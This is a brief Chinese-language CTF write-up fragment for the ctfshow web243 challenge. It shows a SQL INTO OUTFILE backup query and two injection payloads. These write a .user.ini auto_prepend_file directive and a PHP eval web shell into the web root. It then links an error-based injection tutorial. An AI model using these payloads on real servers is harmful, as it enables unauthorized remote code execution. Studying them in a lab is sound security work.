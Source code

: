 





#### web243

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //过滤了php

```

尝试一下.user.ini文件包含

```
filename=.user.ini' lines starting by 'auto_prepend_file=1.txt\n'%23
filename=1.txt' lines starting by '<?=eval($_POST[1])?>'%23
```

![image-20250218165925067](../assets/image-20250218165925067.png)



#### 报错注入

[新手小白入门——SQL注入之报错注入_sql注入报错注入-CSDN博客](https://blog.csdn.net/2401_89233381/article/details/144308798)

#### web244
